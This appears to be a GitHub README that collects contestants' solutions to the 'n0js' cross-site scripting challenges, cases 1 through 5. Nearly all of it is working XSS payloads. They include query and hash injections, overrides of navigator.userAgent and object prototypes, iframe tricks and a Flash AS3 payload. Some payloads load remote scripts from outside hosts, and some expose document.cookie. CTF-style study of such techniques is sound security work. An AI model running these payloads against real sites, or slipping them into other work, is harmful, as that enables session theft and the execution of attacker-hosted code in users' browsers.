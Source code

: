 # n0js Challenges

[http://server.n0tr00t.com/n0js/case1.html](http://server.n0tr00t.com/n0js/case1.html)

	#### @Nearg1e [yourneargo@gmail.com]
	- http://server.n0tr00t.com/n0js/case1_writeup.txt

[http://server.n0tr00t.com/n0js/case2.html](http://server.n0tr00t.com/n0js/case2.html)

	#### @fyth
    - case2.html?a=location.hash.substr(1)#setTimeout("hi.eval('prompt(location.href)')",500)
    - case2.html?a=location.hash.substr(1)#navigator.__defineGetter__('userAgent', function(){ return '<svg/onload=prompt(location.href)>'})

	#### @evi1m0

    - case2.html?a=location.hash.substr(1)#var frame = document.createElement('iframe');
      frame.style.display = 'none'; document.body.appendChild(frame);
      function navigator(){} window.navigator = new Proxy(window.frames[0].window.navigator,
      { get: function(n0t){return "<img src=@ onerror=alert(location.href)>";} })
      
	#### 1124696276

    - case2.html?a=location.hash.substr(1)#function createProperty(value){var _value=value;function _get(){return _value}function _set(v){_value=v}return{"get":_get,"set":_set}};
      function makePropertyWritable(objBase,objScopeName,propName,initValue){var newProp,initObj;if(objBase&&objScopeName in objBase&&propName in objBase[objScopeName])
      {if(typeof initValue==="undefined"){initValue=objBase[objScopeName][propName]}
	  newProp=createProperty(initValue);try{Object.defineProperty(objBase[objScopeName],propName,newProp)}
      catch(e){initObj={};initObj[propName]=newProp;
      try{objBase[objScopeName]=Object.create(objBase[objScopeName],initObj)}catch(e){}}}};
      makePropertyWritable(window,"navigator","userAgent");
      window.navigator.userAgent="<script>prompt(location.href)</script>";
    
	#### @gaoheby
	- case2.html?a=window.location.hash.substring(1)#Object.defineProperty(navigator,'userAgent',
	  {get:function(){return '<script>prompt(location.href)</script>';}})
    
	#### Cnlouds
	- case2.html?test=location.hash.substr(1)#window.addEventListener('load', function(){window.hi.prompt(hi.location.href)});

	#### kaotudou [jianshu.com/p/eb22e86635e0]
	- case2.html?1=eval((window.location.search.substring(49)));
      =var/**/script=document.createElement`script`;script.src=`https://
      ctf.f4ck0.com/1.js`;document.body.appendChild(script);

[http://server.n0tr00t.com/n0js/case3.php](http://server.n0tr00t.com/n0js/case3.php)

	#### @Nearg1e [yourneargo@gmail.com]
	- case3.php?2017=%3Cobject%20allowscriptaccess=always%3E%20%3Cparam%20name=url%20value=http://tangzi.info:43992/payload/n0js_case3.swf%3E
	- AS3 Script:
	    package {
	        import flash.*;
	        import flash.net.*;
	
	        public class XSS {
	
	            public function XSS():void{
	            }
	            public static function main():void{
	                Lib.getURL(new URLRequest("javascript:a=document.createElement('iframe');a.src='https://www.n0tr00t.com/static/test/helloevent.html';document.body.appendChild(a);setTimeout(function(){window.frames[0].postMessage('<img src=1 onerror=prompt(document.cookie)>','*')},3000);"), "_top");
	            }
	
	        }
	    }
	    
	#### daocaoren [jkme.github.io/n0js-case3.html]
	- case3.php?2017=%3Csvg%3E%3Cset+href%3d%23script+attributeName%3dhref+to%3ddata%3a%2cs%3ddocument.createElement(%22script%22)
	  %3bs.src%3d%22http%3a%2f%2f45.32.138.203%2f2.js%22%3bdocument.body.appendChild(s)%3b+%2f%3E%3Cscript+id%3dscript+src%3dfoo%3E%3C%2fscript%3E+
	- jssource:
	    var t = document.createElement("iframe");
	    t.setAttribute("src","https://www.n0tr00t.com/static/test/helloevent.html");
	    document.body.appendChild(t);
	
	    function a(){
	        var b = document.createElement("button");
	        b.setAttribute("onclick","frames[0].postMessage('<img src=x onerror=alert(document.cookie)>','*')");
	        b.click();
	    }
	    //setTimeout("a()",3000);
	    window.onload = a();
	    
[http://server.n0tr00t.com/n0js/case4.php](http://server.n0tr00t.com/n0js/case4.php)
	
	#### @woto [woto3679@gmail.com]
	- case4.php?x=d=document;D=Document.prototype;D.appendChild.call(d.body,(D.createElement.call(d,%22iframe%22))).contentWindow.prompt.call(window,location);
	
	#### @evi1m0 [evi1m0.bat@gmail.com]
	- case4.php?x=document.writeln(%27%3Ciframe%3E%27);frames[0].prompt(location)

	#### @Nearg1e [yourneargo@gmail.com]
	- case4.php?x=document.writeln(%22%3Ciframe%3E%3C/iframe%3E%22);let%20f=document.querySelector(%27iframe%27);f.contentWindow.prompt(location);
	
	#### wenxu wu [ma7h1as.l@gmail.com]
	- case4.php?x=document.body.innerHTML=%27%3Ciframe%20id=%22a%22%20/%3E%27;a.contentWindow.prompt(location)

[http://server.n0tr00t.com/n0js/case5.php](http://server.n0tr00t.com/n0js/case5.php)
